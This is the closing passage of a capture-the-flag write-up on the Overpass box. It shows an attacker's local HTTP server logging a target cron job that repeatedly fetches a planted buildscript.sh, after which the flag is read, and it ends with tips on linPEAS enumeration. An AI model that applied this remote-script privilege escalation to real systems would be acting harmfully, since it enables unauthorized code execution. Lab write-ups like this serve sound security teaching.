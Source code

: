 Once the server is started, wait for some time so that cron generates a request to get the 'buildscript.sh file'. As soon as it generates a request, it would get reflected on our local system:
```
tester@kali:~/Desktop$ sudo python3 -m http.server 80
[sudo] password for tester: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.129.106 - - [19/Jul/2020 22:19:03] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -
10.10.129.106 - - [19/Jul/2020 22:20:04] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -
10.10.129.106 - - [19/Jul/2020 22:21:04] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -
```

As the status code is also 200, we can be assured that the request was completed successfully. We can now got the box and check the file `/tmp/flag` and find our flag over there.

With this, we solved the box `OVERPASS`.

### Some Points To Learn
1. Always pay attention to the functions that are processing data (the login() function).
2. Try to use linPEAS and other such tools for Privilege Escalation enumeration.
 
